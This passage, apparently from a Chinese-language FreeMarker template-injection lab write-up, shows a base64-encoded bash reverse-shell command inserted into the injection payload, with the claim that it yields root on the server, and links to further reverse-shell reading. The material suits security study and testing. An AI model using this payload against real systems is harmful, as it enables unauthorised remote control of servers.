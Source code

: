 ![image-20220210134520331](FreeMarker模板注入实例.assets/image-20220210134520331.png)

#### 测试反弹Shell

进一步反弹shell连接，使用`bash -c {echo,YmFzaCAtaSA+Ji9kZXYvdGNwLzEyNy4wLjAuMS84ODg4IDA+JjEg}|{base64,-d}|{bash,-i}`命令，插入到payload执行命令部分，可以取得服务器root权限。

![image-20220210134620995](FreeMarker模板注入实例.assets/image-20220210134620995.png)

关于反弹shell部分可参考

[Java Runtime.exe() 执行命令与反弹shell（上）](https://www.jianshu.com/p/eb41a0291123)

[Java Runtime.exe() 执行命令与反弹shell（下）](https://www.jianshu.com/p/ae3922db1f70)



